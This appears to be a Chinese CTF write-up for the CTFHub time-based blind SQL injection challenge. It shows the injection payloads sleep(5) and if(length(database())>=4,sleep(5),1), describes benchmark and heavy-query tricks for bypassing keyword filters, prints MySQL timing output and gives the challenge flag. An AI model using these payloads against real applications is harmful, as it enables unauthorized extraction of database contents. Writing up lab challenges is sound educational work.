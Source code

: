 # CTFHUB_时间盲注

## 题目内容

时间盲注

## WriteUp
sleep(5)以下看一下有没有延时

```
1 and sleep(5)
```

然后和bool一样，如果猜解条件对了，就延迟5秒

使用以下语句猜测数据库名长度

```
1 and if(length(database())>=4,sleep(5),1)
```

>if(条件,条件为真,条件为假)类似于c语言的三目运算符
>
>可以用`benchmark`，`sleep`等造成延时效果的函数。
>
>如果`benkchmark`和`sleep`关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积 (opens new window)](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；例如使用[`heavy query` (opens new window)](https://www.anquanke.com/post/id/104319)进行延时注入
>
>或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。
>
>## 1.benchmark()
>
>benchmark是Mysql的一个内置函数,其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式
>
>```
>mysql> select BENCHMARK(10000,md5('a'));
>+---------------------------+
>| BENCHMARK(10000,md5('a')) |
>+---------------------------+
>|                         0 |
>+---------------------------+
>1 row in set (0.00 sec)
>
>mysql> select BENCHMARK(1000000,md5('a'));
>+-----------------------------+
>| BENCHMARK(1000000,md5('a')) |
>+-----------------------------+
>|                           0 |
>+-----------------------------+
>1 row in set (0.33 sec)
>
>mysql> select BENCHMARK(10000000,md5('a'));
>+------------------------------+
>| BENCHMARK(10000000,md5('a')) |
>+------------------------------+
>|                            0 |
>+------------------------------+
>1 row in set (2.93 sec)
>```

猜解原理同理，建议使用自动化工具或者自编写脚本

```
ctfhub{53dd1c65959430e7e77181ee}
```

